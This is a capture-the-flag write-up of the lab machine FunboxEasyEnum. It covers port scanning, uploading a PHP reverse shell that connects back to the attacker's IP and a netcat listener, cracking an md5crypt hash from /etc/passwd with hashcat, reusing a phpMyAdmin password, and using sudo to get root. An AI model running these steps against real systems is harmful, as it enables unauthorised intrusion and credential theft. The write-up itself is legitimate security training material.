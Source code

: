 ```yaml
---
title: FunboxEasyEnum Writeup
author: mooncakeza
date: 2021-06-01 08:30am
categories: [writeup, offsec, proving grounds]
tags: [writeup, offsec, proving grounds]
math: true
mermaind: true
image: /assets/img/pg/provinggrounds.png
---
```


This is my first Offensive Security writeup of a machine on their Proving Grounds platform. 
<br>
I signed up for the free labs and managed to do 2 easy machines and get this writeup done before the daily 3 hour timer expired.

## Enumeration

Starting with Rustscan with NMAP. I have cleaned up the output to just show the relevant info.

```bash
└─$ rustscan -a 192.168.245.132 -u 5000 -- -A -sC -sV                                 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/mooncake/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.245.132:22
Open 192.168.245.132:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-31 07:41 SAST
Scanned at 2021-05-31 07:41:48 SAST for 15s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3a6aFbaxLEn4AMDXmMVZdNfaQuJQ/AcPHffagHb77o1FmSe+6tlCRHMil9l4qJILffRQHkdbQJtrlBk52V35SHfPp8x89B+Pfv7slkKxXE7fkZBIJuUjHF+YAoSakOtY72d7o6Bet2AwCijSBzZ1bkVC4i/L9euG2Oul5oA2iFlnzwYjrhki6MFNFJvvyoOqcJr1zS+w4W0NO1RexielQsxeUG3khrfVYts5kWFQPr39tk52zRZ/gpAKjR00XN4N5mi/mBjvvgnlVX4DNeyxh5r+E5sdLGzJ0Vk8JzjDW7eK70kv2KmVCFSJNceUjfaIV+K4z9wFoy6qZte7MxhaV
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoJi5En616tTVEM4UoE0AVaXFn6+Rhike29q/pKZh5nIPQfNr9jqz2II9iZ5NZCPwsjp3QrsmTdzGwqUbjMe0c=
|   256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO+CVl8CiYP8L+ni0CvmpS7ywOiJU62E3O6L8G2n/Yov
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.17 seconds
```

With only ports 22 and 80 open we fire up Feroxbuster and find the following:

![Desktop View](/assets/img/pg/funboxeasyenum/Feroxbuster mini php.png){: .shadow}

We found http://192.168.145.132/mini.php
<br>
Browsing to it and I see you can upload files.

![Desktop View](/assets/img/pg/funboxeasyenum/Mini Shell PHP.png){: .shadow}

## Foothold

We grab the php-reverse-shell.php on our Kali machine and rename it to shell.php

```bash
-$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

We change the following in the file to match our VPN ip as well as the port we are going to use to listen on for a reverse shell.

```bash
$ip = '192.168.49.245';  // CHANGE THIS
$port = 9998;       // CHANGE THIS
```

In another terminal we start a netcat listener.

```bash
$ nc -lvnp 9998
listening on [any] 9998 ...
```
We then browse back to http://192.168.245.132/mini.php and upload the shell.php

![Desktop View](/assets/img/pg/funboxeasyenum/Shell upload.png){: .shadow}

Once uploaded, it showed up in the list.

![Desktop View](/assets/img/pg/funboxeasyenum/Shell filed uploaded.png){: .shadow}

We now have to change the permissions to execute otherwise the webserver will not be able to execute the php file to run our reverse shell. We changed the permissions to 0777. Drastic I know.

![Desktop View](/assets/img/pg/funboxeasyenum/Shell file permissions.png){: .shadow}

![Desktop View](/assets/img/pg/funboxeasyenum/Shell file permissions change.png){: .shadow}

Once done, browse to http://192.168.245.132/shell.php
<br>
We then received the shell in our netcat listener window.

![Desktop View](/assets/img/pg/funboxeasyenum/Reverse Shell.png){: .shadow}

## local flag

We first have to get an interactive shell, so we use the python method.

```bash
$ python3 -c  'import pty; pty.spawn("/bin/bash")'
www-data@funbox7:/$ 
```

We browse to the www-data home directory and see the following.


![View-Desktop](/assets/img/pg/funboxeasyenum/First flag.png){: .shadow}

The proof.txt file! Easy win without having to enumerate anywhere else on the machine.

Unfortunately we are only www-data and still need to get to root.

## User Escalation

Let us see what users are on the machine.

![Desktop-View](/assets/img/pg/funboxeasyenum/Passwd file.png)

We find a hash for the oracle user.
<br>
Let's identify the type of hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/Identify Hash.png)

This doesn't seem to be a straight MD5 hash.
<br>
Let us rather use [hashcat examples](https://www.google.com/search?client=firefox-b-d&q=hashcat+examples) to verify.
<br>
As we can see it's a md5Crypt hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcat examples.png)

Let's crack it.

```bash
hashcat -m 500 oracle.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcat cracked.png)

Hash cracked.
<br>
We try to ssh as the oracle user but this didn't work but doing a su to the user worked.
<br>
We upload LinPEAS.sh to find anything useful.

![Desktop-View](/assets/img/pg/funboxeasyenum/linpeas upload.png)

LinPEAS didn't give much but we did find the following users and only the user karla was interesting as this user seems to have much more access on the system than the others.

![Desktop-View](/assets/img/pg/funboxeasyenum/Users on box.png)

Further enumeration was needed. I remembered seeing phpMyAdmin from Feroxbuster. I searched for phpMyAdmin config file and found the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/phpmyadmin config.png)

Could this password be reused for karla? One way to try.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karla SSH.png)

Success.

## Priviledge Escalation

As we saw the user karla was part of the sudoers group, we immediately check what sudo commands can be run.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karla sudo.png)

Seems like karla is allowed to run all commands on the system while using sudo.
<br>
We can simply just get a bash shell by running the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karla Privsec.png)

## proof flag

Let's go check the root directory for the loot.

![Desktop-View](/assets/img/pg/funboxeasyenum/Second Flag.png)

